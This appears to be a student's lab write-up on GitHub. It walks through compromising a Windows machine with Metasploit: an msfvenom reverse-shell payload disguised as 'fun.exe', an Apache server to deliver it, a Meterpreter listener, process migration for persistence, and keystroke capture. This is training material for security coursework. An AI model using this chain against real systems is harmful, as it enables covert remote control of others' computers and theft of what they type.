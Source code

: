 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
### NAME:N.NAVYA SREE
### REG NO:212223040138

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-10-30 084351](https://github.com/user-attachments/assets/c13ae138-865e-4a0c-aa73-cb16bcab572a)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Screenshot 2024-10-30 084404](https://github.com/user-attachments/assets/0d4bf214-1c2d-4239-83ca-c7a8ab4aef08)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Screenshot 2024-10-30 084413](https://github.com/user-attachments/assets/21ab6ec8-d9aa-47b9-a2d2-cdfff4b1c690)



Start apache server
sudo systemctl apache2 start
## OUTPUT:
![Screenshot 2024-10-30 084419](https://github.com/user-attachments/assets/962ebb97-efcd-462e-bfa5-6c2397d28e09)


Check the status of apache2
## OUTPUT:
![Screenshot 2024-11-01 185608](https://github.com/user-attachments/assets/1a687a16-3aa3-40b5-92d4-e38582c25ade)


Invoke msfconsole:
## OUTPUT:
![Screenshot 2024-10-30 084437](https://github.com/user-attachments/assets/47538d80-0d1b-41f2-95d8-6407caa05d29)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-09 082914](https://github.com/user-attachments/assets/4622b76d-8df9-45f6-a299-81e4fa841f89)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot 2024-10-09 082927](https://github.com/user-attachments/assets/37229e74-48c4-438f-b719-8eaeb3442bb1)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/663b2b1a-8987-4971-9666-0fe5af0f85a9)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/8e2e2e2d-5b20-4452-a74c-fce642758d11)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/06e520e2-1dba-4560-a20d-e646c5687f34)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



keyscan_dump	Shows the keystrokes captured so far





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
